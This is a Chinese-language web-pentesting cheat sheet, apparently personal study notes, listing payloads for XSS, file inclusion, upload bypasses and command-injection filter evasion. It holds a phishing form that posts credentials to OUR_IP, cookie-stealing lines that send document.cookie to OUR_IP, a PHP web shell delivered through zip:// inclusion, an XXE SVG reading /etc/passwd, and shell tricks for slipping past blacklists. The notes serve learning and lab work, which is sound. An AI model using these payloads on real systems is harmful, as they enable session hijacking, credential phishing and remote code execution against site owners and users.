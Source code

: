 # XSS

## 登录表单

	document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');x

这里DOM直接插入一个登录表单可以进行钓鱼

通过DOM可以直接移除原有的登录表单

	document.getElementById().remove()

## 远程加载js

	<script src="http://OUR_IP/script.js"></script>

## 会话劫持

在thm的学习当中，我们知道直接通过fetch()或者iframe标签进行http请求有可能会被浏览器的蜜汁安全给拦截，所以我们可以使用img标签的src来发起http请求，因为img请求起来总是像是合法的，它也并不会被浏览器拦截

	document.location='http://OUR_IP/index.php?c='+document.cookie;
	new Image().src='http://OUR_IP/index.php?c='+document.cookie;

# LFI

## PHP Wrappers

数据包装器可用于包含外部数据，包括 PHP 代码。但是，只有在 PHP 配置中启用了 allow_url_include 设置时，数据包装器才可用。

- php://filter
- data://text/plain,
- php://input

## RFI

可以尝试http、ftp这些协议。如果是Windows，还可以使用UNC路径，它将会尝试使用smb和http

## 文件上传搭配文件包含

常规打法。通过文件上传传一个图片马，用文件包含直接包含出来从而RCE

还可以通过上传zip压缩包然后使用zip://解压并RCE

	M1n9K1n9@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php

	?file=zip://./uploads/shell.jpg%23shell.php&cmd=id

## PHPSession

- /var/lib/php/sessions/sess_xxxxxxxx
- C:\Windows\Temp\

phpsession会记录与用户相关的数据，如果文件内容我们可控，那么我们将能造成RCE

## 服务器日志以及配置文件

[这里](https://github.com/DragonJAR/Security-Wordlist/)包含了linux和Windows常见的服务日志和配置文件路径列表


以及SecLists中的burp-parameter-names.txt用于找到可能导致文件包含的参数

# 文件上传

## 常见后缀列表

SecLists的[web-extensions.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)

## 白名单绕过

当遇到不安全的白名单限制时

```php
$fileName = basename($_FILES["uploadFile"]["name"]);

if (!preg_match('^.*\.(jpg|jpeg|png|gif)', $fileName)) {
    echo "Only images are allowed";
    die();
}
```

可以尝试双扩展

## 反向双扩展

```xml
<FilesMatch ".+\.ph(ar|p|tml)">
    SetHandler application/x-httpd-php
</FilesMatch>
```

这是Web 服务器确定允许 PHP 代码执行哪些文件的方式

这也就意味着只要文件名的"."后能被以上规则匹配，则将会被php执行，那么我们就可以尝试反向双扩展:

	.php.jpg

这个案例能被匹配到

## Content-Type / MIME Type

## 文件上传造成XSS

往图片插入js代码，并以Content-Type：text/html的类型上传，这将可能会造成xss

## 文件上传造成XXE

通过上传恶意svg图片进行XXE

```xml
<!DOCTYPE svg [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<svg>&xxe;</svg>
```

# 命令注入

## ${IFS}

## bash花括号

- {ls,-la}

在bash当中，通过这种形式可以执行命令，bash会自动将里面的逗号转换为空格，而这种方式也只有bash才可以

## ${环境变量}

${变量名:起始下标:长度}

- ${PATH:0:1} -> /
- ${LS_COLORS:10:1} -> ;

具体还是根据目标而定

## 引号绕过

linux和powershell都可以用引号或双引号绕过黑名单

	whoam'i'
	whoam"i"

而在windows cmd下只能使用双引号

![在这里插入图片描述](https://img-blog.csdnimg.cn/1056747d3b344aa8b49121addb1fd09d.png)

## $@ - ^

在bash下，$@将会被忽略，cmd下^也是如此

## 反转绕过

```bash
$(rev<<<'di')
```

```powershell
iex "$('imaohw' -join '')"
```

如果管道符|被禁用，则可以尝试<<<

